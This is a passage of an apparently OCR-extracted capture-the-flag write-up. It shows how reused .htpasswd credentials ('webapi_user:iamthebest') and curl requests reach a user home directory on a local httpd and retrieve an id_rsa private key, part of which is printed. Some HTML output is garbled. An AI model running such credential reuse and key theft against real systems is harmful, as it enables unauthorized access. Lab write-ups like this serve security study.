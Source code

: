 ### HomeDir Read

I remember thinking it was a bit weird to see `-u` in the `httpd`
command line. This makes the public folders in a users homedirectory web
accessible. I didn't have a username when I started poking at this
service, but I do now.

Trying to access `/~r.michaels/` returns 401:



    $ curl -s http://127.0.0.1:3001/~r.michaels/
    .md><head><title>401 Unauthorized</title></head>
    <body><h1>401 Unauthorized</h1>
    ~r.michaels//: <pre>No authorization</pre>
    <hr><address><a href="//127.0.0.1:3001/">127.0.0.1:3001</a></address>
    </body><.md>



I can add in the creds from the `.htpasswd` file and they work:



    $ curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
    <!DOCTYPE.md>
    .md><head><meta charset="utf-8"/>
    <style type="text/css">
    table {
            border-top: 1px solid black;
            border-bottom: 1px solid black;
    }
    th { background: aquamarine; }
    tr:nth-child(even) { background: lavender; }
    </style>
    <title>Index of ~r.michaels/</title></head>
    <body><h1>Index of ~r.michaels/</h1>
    <table cols=3>
    <thead>
    <tr><th>Name<th>Last modified<th align=right>Size
    <tbody>
    <tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
    <tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
    </table>
    </body><.md>



Directory listing is enabled (`-X` in the command line), and this shows
a single file, `id_rsa`. One more `curl` returns the private key:



    $ curl -s http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user:iamthebest
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
    ...[snip]...
